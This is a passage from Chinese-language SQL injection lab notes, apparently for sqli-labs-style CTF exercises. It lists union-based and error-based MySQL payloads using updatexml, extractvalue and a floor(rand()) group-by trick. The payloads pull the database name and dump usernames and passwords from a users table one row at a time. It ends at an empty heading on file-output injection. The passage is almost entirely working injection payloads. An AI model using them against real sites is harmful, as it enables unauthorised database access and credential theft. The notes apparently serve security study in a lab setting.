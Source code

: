    `?id=%27 union select 1,group_concat(username) ,group_concat(password)  from users %23`

   ![](/35.png)

### b. 报错注入

1. 查询数据库

   `?id=0' and updatexml(1,concat(1,(select database())),1)%23`

   或者`?id=0' and extractvalue(1,concat(1,(select database())))%23`

   `?id=0' and (select 1 from (select count(*),concat((select database()),floor (rand(0)*2))x from information_schema.tables group by x)a)--+`(在测试时，这一条buu上无回显，但是本地是可以的，**此条语句最多能显示64个字符，上面两条最多32个**)

   ![](/36.png)

2.  查询表名 *与基本注入相同不在重复*

3.  查询列名 *与基本注入相同不在重复*

4.  查信息

   `?id=0' and extractvalue(1,concat(1,(select substr(concat(username,'~',password),1,30) from users limit 2,1 )))%23`

   或者

   `?id=0' and updatexml(1,concat(1,(select substr(concat(username,'~',password),1,30) from users limit 2,1 )),1)%23`

   或者

   `?id=0' and (select 0 from (select count(*),concat((select concat(username,'~',password) from users limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a)--+`

   通过修改limit 一条一条查询

### c. 输出文件注入




